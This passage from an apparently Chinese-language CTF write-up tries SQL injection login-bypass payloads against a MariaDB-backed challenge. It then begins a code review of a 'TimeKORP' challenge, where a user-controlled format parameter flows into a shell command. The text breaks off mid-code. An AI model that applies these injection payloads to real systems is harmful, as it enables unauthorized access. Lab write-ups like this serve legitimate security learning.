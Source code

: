 #### 2. or 123=123
![image](https://hackmd.io/_uploads/H1P63O2aT.png)
```
' OR 123=123
chw
```
![image](https://hackmd.io/_uploads/HJxJp_36p.png)
> {"error":{"message":["1064","1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1","42000"],"type":"ProgrammingError"}}

語法有誤 & 系統使用MariaDB

#### 3. OR 123=123 AND password
```
' OR '123'='123' AND password='chw' '--
chw
```
![image](https://hackmd.io/_uploads/BJTwfYnpp.png)


## TimeKORP
![image](https://hackmd.io/_uploads/HyfAW82pT.png)
http://83.136.255.150:45177/
![image](https://hackmd.io/_uploads/Sy91zUhTa.png)
### Attempt
● What's the time?
![image](https://hackmd.io/_uploads/rkryNIna6.png)
> http://83.136.255.150:45177/?format=%H:%M:%S

● What's the date?
![image](https://hackmd.io/_uploads/ryefV8hpp.png)
> http://83.136.255.150:45177/?format=%Y-%m-%d

## Code Review
TimeController.php
```php=
class TimeController
{
    // index 方法處理請求，並使用提供的 Router 實例進行視圖的載入
    public function index($router)
    {
        // 從 GET 請求中獲取時間格式，如果未提供則預設為 '%H:%M:%S'
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';

        // 創建 TimeModel 的實例，並傳遞時間格式參數
        $time = new TimeModel($format);

        // 使用 Router 實例的 view 方法載入視圖，將時間數據傳遞給視圖
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
時間格式在TimeModel.php
TimeModel.php
```php=
class TimeModel
{
    // 建構子接受時間格式作為參數，並構建要執行的 shell 命令
    public function __construct($format)
```